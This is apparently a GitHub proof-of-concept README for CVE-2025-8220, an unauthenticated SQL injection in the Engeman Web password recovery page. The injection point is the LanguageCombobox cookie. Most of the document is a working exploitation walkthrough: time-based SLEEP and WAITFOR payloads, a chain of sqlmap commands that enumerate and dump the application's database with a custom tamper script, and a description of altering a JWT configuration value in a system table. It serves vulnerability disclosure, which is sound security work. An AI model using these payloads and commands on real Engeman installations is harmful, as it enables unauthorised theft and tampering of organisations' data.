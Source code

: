 # Engeman Web <= 12.0.0.1 Password Recovery Page Load Unauthenticated SQL Injection

Proof of concept for exploitation of the vulnerability described in **CVE-2025-8220,** which concerns the possibility of **SQL Injection** during the password recovery page load in the **Engeman Web** software.

## Description

A vulnerability that allows manipulation of the **SQL** query made during the password recovery page load was found in the **Engeman Web** software. This vulnerability can be exploited by visitors without access to any valid credentials, that is, in an unauthenticated manner, to compromise the confidentiality and integrity of the data stored in the application's database, as well as potentially cause denial of service at the component level by altering values in critical tables.

## Vendor Website

https://engeman.com/en/

## Exploitation

After accessing the application and being redirected to the login page, click the button to be redirected to the password recovery page.

![Engeman Web initial page](https://github.com/user-attachments/assets/7aa5bc05-dabb-4f08-8511-efecf0794609 "Engeman Web initial page")

![Engeman Web password recovery page](https://github.com/user-attachments/assets/4e9dd7b8-220d-45c7-b5b7-fe739c2e14f9 "Engeman Web password recovery page")

Check the request made by the browser to load the password recovery page. You will notice that some cookies are present, including the **LanguageCombobox** cookie, which is stored during the initial access. The **Burp Suite** software was used in this demonstration to view and resend browser requests more efficiently.

![Request made to get the content of the password recovery page](https://github.com/user-attachments/assets/fa7be811-d500-4a63-b30f-dca46134acf6 "Request made to get the content of the password recovery page")

To confirm the vulnerability, insert a single quotation mark as the value of the mentioned cookie and resend the request. An error indicating an unclosed quotation mark should be displayed in the application's response.

![Forcing an error in the application through a single quotation in the value of the LanguageCombobox cookie](https://github.com/user-attachments/assets/48f4db9f-dd41-4209-8180-e0476a15dff8 "Forcing an error in the application through a single quotation in the value of the LanguageCombobox cookie")

The query results are not displayed directly on the returned page, making this a blind exploitation. You can insert payloads such as **' AND SLEEP(30)-- -** or **'; WAITFOR DELAY '0:0:30'--** to infer the underlying database.

![Inferring the underlying database type through a time-based payload](https://github.com/user-attachments/assets/260ac765-816f-4ba7-afa7-5cb32a2e60f0 "Inferring the underlying database type through a time-based payload")

Once the injection is confirmed, an automated tool such as **sqlmap** can be used to dump the database.

It is important to note that the **--technique** argument must include the value **SEB** so that techniques based on **stacked queries, errors,** and **boolean** comparisons are used. First, because a blind exploitation is necessary, and second, because omitting the **S** option from the argument value resulted in **sqlmap** being unable to find the injection point in **SQL Server** databases.

```bash
sqlmap -u https://<target>/Login/RecoveryPass --cookie 'LanguageCombobox=*' --level 5 --risk 3 --technique=SEB --batch
```

![Using sqlmap to test the injection point](https://github.com/user-attachments/assets/9a877f7a-ad27-4b6d-aec5-2a329dad9809 "Using sqlmap to test the injection point")

Different possible exploitation techniques will be identified through the injection point. After that, the database information can be retrieved.

```bash
sqlmap -u https://<target>/Login/RecoveryPass --cookie 'LanguageCombobox=*' --level 5 --risk 3 --technique=SEB --batch --dbs
```

![Getting available databases through sqlmap](https://github.com/user-attachments/assets/86c3e9a6-3dc7-4e20-a7d0-3802dad7078f "Getting available databases through sqlmap")

```bash
sqlmap -u https://<target>/Login/RecoveryPass --cookie 'LanguageCombobox=*' --level 5 --risk 3 --technique=SEB --batch -D Engeman --tables
```

![Getting available tables through sqlmap](https://github.com/user-attachments/assets/b07c0ace-3618-469f-abb5-9b02da887947 "Getting available tables through sqlmap")

```bash
sqlmap -u https://<target>/Login/RecoveryPass --cookie 'LanguageCombobox=*' --level 5 --risk 3 --technique=SEB --batch -D Engeman -T <table> --columns
```

![Getting available columns thorugh sqlmap](https://github.com/user-attachments/assets/8b401cfc-ffae-4d8f-889f-687462c44af9 "Getting available columns thorugh sqlmap")

To dump table records using **sqlmap,** it is necessary to use a custom tamper script — at least for **SQL Server** databases — which goes by the name **replace-dbo.py** in this repository. The reason for this is that **sqlmap** payloads using the format **\<database\>.dbo.\<table\>** to reference the table object conflict with the application's processing. The mentioned tamper converts it to the format **\<database\>.\<table\>** only. If the instance of **Engeman Web** uses **MySQL** or another database this tamper will not be required, or another one will need to be created.

![Trying a payload with the format <database>.dbo.<table> to reference the table object](https://github.com/user-attachments/assets/ba46cc47-335b-45ec-bd8a-a96060e59e1b "Trying a payload with the format <database>.dbo.<table> to reference the table object")

![Trying the same payload but now with the format <database>.<table> to reference the table object](https://github.com/user-attachments/assets/d7186184-a122-4170-90d1-1bef3b3f7f0e "Trying the same payload but now with the format <database>.<table> to reference the table object")

Remember that the sqlmap tool requires an empty file named **__init__.py** to exist in the directory where the tamper script is located in order for it to be used, if you don't placed it on the default tamper directory for your installation.

```bash
sqlmap -u https://<target>/Login/RecoveryPass --cookie 'LanguageCombobox=*' --level 5 --risk 3 --technique=SEB --batch -D Engeman -T <table> --dump --tamper <tamper-file>.py
```

![Retrieving application's general configurations](https://github.com/user-attachments/assets/3e90f8ea-2364-4e5e-9420-9cef1a5c7369 "Retrieving application's general configurations")

This tamper will cause conflicts if used at any stage of the process other than during the dump of a specific table. Therefore, do not use it to obtain the databases **(--dbs),** tables **(--tables),** columns **(--columns),** or additional information such as the database user **(--current-user).**

Since the user used by the application to interact with the database has high privileges within the context of system records, it is also possible to manipulate the underlying query to alter the values of the table records (this is much easier if the instance is using **SQL Server** as the underlying database).

![JWTVALIDOTOKEN column of CFGGERAL table unique entry initial value](https://github.com/user-attachments/assets/6dac2008-1b21-4695-a9a1-b238a86600f2 "JWTVALIDOTOKEN table initial value")

![Modifying the JWTVALIDOTOKEN entry column value](https://github.com/user-attachments/assets/b850f6c6-84a6-4d2f-aa12-f9e046931695 "Modifying the JWTVALIDOTOKEN entry column value")

![JWTVALIDOTOKEN column of CFGGERAL table unique entry modified value](https://github.com/user-attachments/assets/9e1a59cf-c627-4a2e-996e-ad6140fb4bf8 "JWTVALIDOTOKEN column of CFGGERAL table unique entry modified value")

## Impact

Through this vulnerability, any instance of the system would be susceptible to the unauthorized retrieval and possibly modification of data present in the database in use.

This vulnerability was confirmed in versions up to **12.0.0.1,** but a more recent version is likely also vulnerable.

